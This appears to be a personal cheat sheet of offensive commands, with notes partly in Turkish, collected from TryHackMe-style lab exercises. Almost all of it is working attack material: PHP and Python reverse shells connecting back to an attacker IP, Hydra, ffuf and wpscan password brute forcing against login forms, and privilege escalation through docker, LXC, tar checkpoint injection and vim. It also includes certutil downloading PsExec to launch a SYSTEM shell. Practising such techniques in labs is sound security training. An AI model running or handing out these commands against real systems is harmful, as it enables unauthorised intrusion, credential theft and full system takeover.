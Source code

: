 shell stab python

usr/bin/script -qc /bin/bash /dev/null
without python

python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

CTRL-z
stty raw -echo;fg
stty rows 55 columns 116

getcap -r / 2>/dev/null -- capabilities


sudo nmap -sS -sV -n -vv -Pn -p- 


suid file 

find / -uid 0 -perm -4000 -type f 2>/dev/null

hydra brute force login form

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.20.32 http-post-form "/admin/:user=^USER^&pass=^PASS^&LOGIN=Login:Username or password invalid"

ffuf brute force 
ffuf -w valid_users.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.139.242/customers/login -fc 200


thm='php' $thm -r '$sock=fsockopen("10.11.51.187",1234);passthru("sh <&3 >&3 2>&3");'

'python3' -c 'import os,pty,socket;s=socket.socket();s.connect(("10.11.51.187",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'

/usr/bin/pyth??? -c 'import os,pty,socket;s=socket.socket();s.connect(("10.9.163.154",4445));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/sh")'


---- docker root
docker run -v /etc/:/mnt -it alpine

-------
smbye kullanıcıyla girme

smbclient //ip/kullanıcı -U kullanıcı

----- tar ile sudo 
-dosya oluştur içine cp /bin/bash /tmp/dosya adı && chmod +s /tmp/dosya adı

ardından
touch "/var/www/html/--checkpoint-action=exec=sh dosya_adı.sh"
touch "/var/www/html/--checkpoint=1"

ardından /tmp/dosya adı -p ile çalıştır

-----

LXC PrivEsc

lxc image import ./alpine.tar.gz --alias (isim)

lxc init valerie gaming -c security.privileged=true
lxc config device add gaming mydevice disk source=/root path=/mnt/root recursive=true
lxc start gaming
lxc exec gaming /bin/sh

----- anonim olarak girilen ftpye put ile dosya yüklenebilir

----- rate limit düşürerek gözden kaçan portları bulma
sudo nmap -p- --min-rate 1000 10.10.122.24

---- wpscan ile wp-login brute force
 wpscan --url http://10.10.83.65 -U c0ldd,hugo,philip -P /usr/share/wordlists/rockyou.txt --password-attack wp-login -t 100

--------- wpscan aracı ile wordpress enum
wpscan --url http://10.10.220.178/wordpress/ -e u

--ffuf ile subdomain enum
ffuf -u http://mydomain.com -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.mydomain.com' -fs 0


----- base64
lfile ata
base64 decode yap
------
--vim cap
./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

-- searchsploit db update -u

-- powershellde dosya bulunamıyor başlamıyorsa absolute path vermek gerekir.**

---curl ile [] kullanılacaksa -g kullanmalı. (get_cmd kullanıken eklenebilir. globing)

---gpg
.asc uzantısı anahtardır. 
gpg2john dosya.asc > hash şeklinde dönüşüm sağlanır parola kırılır.

gpg --import dosya.asc import edilir. 
gpg --decrypt kilitli_dosya.pgp parolayla açılır.

----HYDRA--
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.183.130 http-post-form "/Account/login.aspx:__VIEWSTATE=AUqYC6%2B2PCo3uYXvn8%2Feh%2BL9N5CXfHPdTu9jDoVOHrO2WCALA0%2BH0CVCIN3Lp%2ByGLlWrGb49JbK9HmXjYPUYZmXx8UKBIcKuo7vW2cpbNKuiCHC9YDcIo%2FeHbuIaXXFy6PCXzA9Q0E7nr4j7WnW0xAqruJ5DRnDMrDIrRQJuRlwFKqA17%2FwUqsp8Ru0N6vQGKdDZwEhetIKNNwcG0zg9LH1vG4LDAiWEBaZf%2BFf0dDaUSKoWgTgLhRlcc%2BlAb5FW8vJU9Tw1%2F7gHlGP8IPuMPrgwX8pnxKFQoaxm2uVp9n%2BItqgvFI63KF4z%2BSGuj5cfQh3PMfrwTnhX%2BxrsOiKPsDMimYO2W2EbGg%2FuUOo0p0hlRzWc&__EVENTVALIDATION=WNhphsDiUIO1CarLUkEeS2TtKGqTbAQ4vCZ2dqpIbem60ahrcisTBB2tLJOVY4kOIM6MpCIxpdsIIUT3VT0HcQVWk%2FGNqdcvALxT5hp8uqi9xGfKU953oOW%2F0XBL9XnE0vzBFckA5dYkNmss2VSvpruxNPQ%2BOOcklwdG%2FAwbfYGIlc1d&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"

--ping ile istek kontrolü 
sudo tcpdump -i tun0 icmp -A --print

---ps indirme certutil -urlcache -f http://10.11.51.187/PsExec64.exe p.exe

--ps exe çalıştırma ve parametreleri 
.\p.exe -accepteula(popup ekranı onaylayarak çıkmasını engeller) -i -d -s(sistem shelli verir) C:\Users\bruce\Downloads\shell.exe

--buffer owerflow bad character tespiti araştır

--wget ip/{dosya isimleri}

--kali$ nc -lnvp 80 < index.php --netcate dosya yönlendirilirse wget doğrudan onu alır
client$ wget 1.1.1.1 -O shell.php

---BASH--
cat <<EOF > foo.sh
#!/bin/bash

sdlşfksşf
EOF

---ffuf subdomain enum--
ffuf -w /usr/share/seclists/Discovery/DNS/namelist.txt -H 'Host: FUZZ.acmeitsupport.thm' -u http://10.10.25.169 -fs 2395

--ffuf username enum--
ffuf -w /usr/share/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.51.251/customers/signup -mr "username already exists"

--ffuf brute force 
           
user@tryhackme$ ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200

--satır sayısı
wc -c 

 -- ftpden uygun verileri indirme
 wget -m --no-passive ftp://anonymous:anonymous@1.1.1.1
 
 -- mount nfs
 showmount -e 1.1.1.1
 
 sudo mount -t nfs 1.1.1.1:/mnt/nfsshare /home/kali/target-NFS
 
 sudo umount /home/kali/target-NFS

 -- php upload form
 https://blog.filestack.com/thoughts-and-knowledge/php-file-upload/#1_The_HTML_Form

 
